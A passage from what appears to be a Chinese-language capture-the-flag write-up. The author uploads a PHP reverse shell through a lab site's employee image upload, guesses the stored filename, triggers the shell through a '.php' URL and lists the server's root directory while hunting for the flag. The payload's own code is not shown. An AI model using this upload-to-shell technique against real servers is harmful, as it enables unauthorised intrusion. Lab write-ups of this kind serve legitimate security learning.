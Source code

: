 先尝试添加一个员工试试：

![image-20240316193543842](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116223.png)

卡住了，嘶。看来不阔以，上传吧，但是点击完又弹到添加这了，我还以为是我刚刚自己点的呢，可能上传成功了，尝试查一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116224.png" alt="image-20240316194353950" style="zoom:50%;" />

![image-20240316194146174](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116225.png)

难道没成功，再试一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116226.png" alt="image-20240316194257971" style="zoom:33%;" />

感觉是成功了啊，都复原到添加用户的位置了。

难道处理了？这咋猜啊。

~~http://10.161.187.177/employee/uploads/img_reverseShell.jpg~~

~~http://10.161.187.177/employee/uploads/image_reverseShell.jpg~~

总不至于把名字随机化成字符串了吧，难道没上传成功？

~~http://10.161.187.177/employee/uploads/_reverseShell.jpg~~

~~http://10.161.187.177/employee/uploads/employee_reverseShell.jpg~~

~~http://10.161.187.177/employee/uploads/2024-03-16_reverseShell.jpg~~

~~http://10.161.187.177/employee/uploads/reverseShell_2024-03-16.jpg~~

经群里师傅们提示（好吧是我偷偷翻了聊天记录），发现名字为：

~~http://10.161.187.177/employee/uploads/1_reverseShell.jpg~~

http://10.161.187.177/employee/uploads/2_reverseShell.jpg

![image-20240316195129340](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116227.png)

但是没上传成功，抓包看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116228.png" alt="image-20240316195651260" style="zoom: 50%;" />

难道后端对文件进行校验了？把文件名该回去试试，再看看是否可以查看到上传的内容：

```url
http://10.161.187.177/employee/uploads/2_reverseShell.php
```

![image-20240316195914182](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116229.png)

shell弹回来了，我去真的刁钻。

查看flag：

```bash
$ ls -la
total 1840208
drwxr-xr-x  20 root root       4096 Jan 14 20:49 .
drwxr-xr-x  20 root root       4096 Jan 14 20:49 ..
lrwxrwxrwx   1 root root          7 Aug 10  2023 bin -> usr/bin
drwxr-xr-x   4 root root       4096 Feb  4 18:59 boot
dr-xr-xr-x   2 root root       4096 Aug 10  2023 cdrom
drwxr-xr-x  20 root root       4000 Mar 16 18:01 dev
drwxr-xr-x 100 root root       4096 Feb 12 06:21 etc
drwxr-xr-x  11 root root       4096 Feb  8 21:56 home
lrwxrwxrwx   1 root root          7 Aug 10  2023 lib -> usr/lib
lrwxrwxrwx   1 root root          9 Aug 10  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root root          9 Aug 10  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root root         10 Aug 10  2023 libx32 -> usr/libx32
drwx------   2 root root      16384 Jan 14 20:47 lost+found
```